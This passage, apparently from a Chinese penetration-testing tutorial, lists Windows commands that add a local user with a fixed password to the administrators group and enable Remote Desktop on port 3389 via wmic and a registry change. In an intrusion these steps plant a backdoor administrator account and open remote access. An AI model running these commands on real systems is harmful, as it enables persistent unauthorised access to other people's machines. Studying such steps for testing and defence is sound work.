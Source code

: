 ### 添加用户：

```plain
net user srn7 P@ssword /add
# 添加用户
net localgroup administrators srn7 /add
# 将用户添加至管理员组
net user srn7
```

[![](assets/1701827767-533b3c24dc77a11bc60566ec4af2d646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191335-d613f780-9103-1.png)

[![](assets/1701827767-0a80a23d22ba0b53196e67a73f966106.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191330-d2f95162-9103-1.png)

### 开启远程 3389 端口：

```plain
netstat -an 查看端口状态
```

```plain
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

